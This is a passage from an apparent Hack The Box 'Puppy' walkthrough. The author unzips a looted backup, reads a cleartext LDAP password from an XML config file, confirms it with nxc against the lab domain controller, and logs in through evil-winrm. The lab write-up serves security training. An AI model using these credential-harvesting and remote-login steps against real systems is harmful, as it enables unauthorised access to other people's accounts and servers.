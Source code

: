 The backup was unzipped.

```
fcoomans@kali:~/htb/puppy$ cd loot

fcoomans@kali:~/htb/puppy/loot$ ls
backup.zip

fcoomans@kali:~/htb/puppy/loot$ unzip backup.zip
Archive:  backup.zip
   creating: puppy/
  inflating: puppy/nms-auth-config.xml.bak

<SNIP>
```

#### 🔼 PrivEsc to Steph Cooper

The `nms-auth-config.xml.bak` config file leaked the cleartext password for user Steph Cooper.  The password was `ChefSteph2025!`.

```
fcoomans@kali:~/htb/puppy/loot$ cd puppy

fcoomans@kali:~/htb/puppy/loot/puppy$ ls
assets  images  index.html  nms-auth-config.xml.bak

fcoomans@kali:~/htb/puppy/loot/puppy$ cat nms-auth-config.xml.bak
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>

<SNIP>
```

`nxc` confirmed that the password was still valid.

```
fcoomans@kali:~/htb/puppy/loot/puppy$ nxc ldap dc.puppy.htb -u steph.cooper -p ChefSteph2025!
LDAP        10.10.11.70     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\steph.cooper:ChefSteph2025!
```

### 💰 Post Exploitation

Steph Cooper was also a member of the `Remote Management Users` group.  `evil-winrm` was used to login to the server as user Steph Cooper.

